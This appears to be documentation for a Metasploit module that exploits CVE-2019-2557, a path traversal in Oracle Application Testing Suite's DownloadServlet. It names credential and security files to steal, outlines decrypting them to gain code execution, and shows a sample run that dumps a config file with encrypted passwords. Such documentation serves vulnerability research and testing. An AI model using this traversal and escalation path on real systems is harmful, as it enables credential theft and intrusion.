 ## Description

Oracle Application Testing Suite (OATS) is a comprehensive, integrated testing solution for web applications, web services, packaged Oracle applications, and Oracle databases. OATS is part of an application deployed in the WebLogic service on port 8088, which also includes these tools: Administrator, OpenScript, Oracle Load Testing, and Oracle Test Manager.

In the Load Testing component, a vulnerability was discovered by Steven Seeley (@mr_me) of Source Incite in the DownloadServlet class. According to the Source Incite advisory, the issue results from the lack of proper validation of a user-supplied string before using it to read a file. An attacker can leverage this vulnerability to execute code in the context of SYSTEM. Note that authentication is required.

This vulnerability is also known as CVE-2019-2557.


## Vulnerable Application

The following is the exact setup I used to test and analyze the vulnerability:

- Windows Server 2008 R2 x64 (other Windows systems are also supported)
  - .Net Framework 3.5 enabled (from add/remove features)
  - IE ESC (from Server Manager) disabled
  - 8GB of RAM (at least more than 4GB will be used to run OATS)
  - Duel-Core processor
- oats-win64-full-13.3.0.1.262.zip (x86 did not work for me)
- Jdk-7u21-windows-x64.exe
- OracleXE112_Win64.zip (Newer version 18c did not work well for me)
- Firefox (I had to install this because IE on Win2k8 is completely outdated)
- Adobe Flash installed (IE ESC needs to be disabled in order to install this)

For installation instructions, please refer to the Oracle Application Testing Suite Installation Guide.

## Notes

By default, your starting traversal path is:

```
C:\OracleATS\config\Report Templates\
```

There are some interesting files you can steal from this directory, such as:

* oats-config.xml
* oats-database-config.xml
* oats-keystore

Code execution is possible leveraging from this vulnerability if you target these files:

* C:\OracleATS\oats\servers\AdminServer\security\SerializedSystemIni.dat
* C:\OracleATS\oats\servers\AdminServer\security\boot.properties

After that, you can find a third party script to decrypt the credentials, and then you could
gain code execution from the administrator console.


## Credit

Special thanks to Steven Seeley to assist on the development of the Metasploit module.

## Scenarios

```
msf5 auxiliary(gather/oats_downloadservlet_traversal) > run
[*] Running module against 172.16.249.143

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE properties SYSTEM "http://java.sun.com/dtd/properties.dtd">
<properties>
<entry key="oracle.oats.cluster.agent.username">oats-agent</entry>
<entry key="oracle.oats.security.keystore.info">eYAdfLaDkdBlUmflYhpg+CHGeXc=</entry>
<entry key="oracle.oats.cluster.username">oats</entry>
<entry key="oracle.oats.cluster.agent.password">{AES}WNdIPXpoeoZzyDNuJPm0wU4R3YKc1SUR2k5+TbQfzIQ=</entry>
<entry key="oracle.oats.admin.username">oats</entry>
<entry key="oracle.oats.http.url">http://localhost:8088</entry>
<entry key="oracle.oats.config.version">9.1.0</entry>
<entry key="oracle.oats.admin.password">{AES}NHrwlbPc7Arlb7puj+UlzAAXB/dUEbv3bdwNnee1/sc=</entry>
<entry key="oracle.oats.cluster.password">{AES}WMTjMmLChdB9CTSrnyJ33113u0ml0juuGZQCWPODJTk=</entry>
<entry key="oracle.oats.admin.url">t3://localhost:8088</entry>
<entry key="oracle.oats.tmp.dir">/tmp</entry>
<entry key="oracle.oats.cluster.url">t3://localhost:8088</entry>
</properties>

[*] Auxiliary module execution completed
msf5 auxiliary(gather/oats_downloadservlet_traversal) > 
```
